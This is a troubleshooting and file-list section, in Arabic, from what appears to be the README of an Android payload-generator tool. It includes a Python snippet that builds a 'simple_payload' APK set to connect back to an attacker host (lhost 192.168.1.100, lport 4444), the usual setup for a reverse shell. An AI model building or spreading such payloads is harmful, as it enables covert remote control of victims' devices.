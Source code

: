 ## 🔍 استكشاف الأخطاء

### مشكلة: "Android SDK not found"
```bash
# حل سريع
export ANDROID_HOME=$HOME/Android/Sdk
export PATH=$PATH:$ANDROID_HOME/platform-tools:$ANDROID_HOME/build-tools/34.0.0

# أو تثبيت Android SDK
python -c "from tools.sdk_installer import SDKInstaller; SDKInstaller().install_sdk()"
```

### مشكلة: "Java not found"
```bash
# Ubuntu/Debian
sudo apt install openjdk-11-jdk

# macOS
brew install openjdk@11

# Windows: تحميل من https://adoptium.net/
```

### مشكلة: "APK لا يعمل"
```bash
# جرب APK مبسط
python -c "
from core.payload_generator import PayloadGenerator
generator = PayloadGenerator()
result = generator.create_simple_apk('simple_payload', {'lhost': '192.168.1.100', 'lport': 4444})
print(f'Simple APK: {result}')
"
```

## 📋 الملفات المهمة

### ملفات الإخراج
- `output/android_payload.apk` - ملف APK الحقيقي
- `output/android_payload_project/` - مشروع Android Studio
- `output/android_payload_installer.sh` - ملف التثبيت
- `output/android_payload_README.md` - دليل البايلود

### ملفات التكوين
- `config.json` - إعدادات الأداة
- `requirements.txt` - متطلبات Python
- `install.py` - المثبت التلقائي

### ملفات الاختبار
- `test_apk.py` - اختبار النظام
- `BUILD_APK.md` - دليل بناء APK مفصل
- `QUICK_START.md` - دليل البدء السريع
